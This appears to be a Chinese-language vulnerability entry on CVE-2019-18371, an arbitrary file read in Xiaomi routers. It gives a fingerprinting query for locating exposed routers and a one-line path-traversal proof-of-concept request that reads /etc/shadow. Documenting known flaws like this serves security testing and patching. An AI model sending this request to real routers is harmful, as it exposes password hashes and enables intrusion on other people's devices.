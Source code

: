 # 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

<a-checkbox checked>小米 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="小米路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619.png)

验证POC

```php
/api-third-party/download/extdisks../etc/shadow
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657436392400-dea2fe94-8872-4f73-a405-d2ac6de42eb5.png)